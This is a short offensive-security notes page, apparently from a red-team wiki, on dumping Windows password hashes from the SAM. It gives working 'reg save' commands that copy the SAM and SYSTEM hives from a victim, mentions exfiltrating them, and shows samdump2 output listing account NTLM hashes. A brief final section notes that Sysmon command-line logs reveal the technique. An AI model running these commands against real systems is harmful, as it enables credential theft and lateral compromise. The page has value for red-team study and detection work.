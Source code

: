 ```yaml
---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---
```


# Dumping Hashes from SAM via Registry

## Execution

Dumping the registry hives required for hash extraction:

{% code title="attacker@victim" %}
```erlang
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code title="attacker@local" %}
```erlang
root@~/tools/mitre/pwdump# samdump2 system sam
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

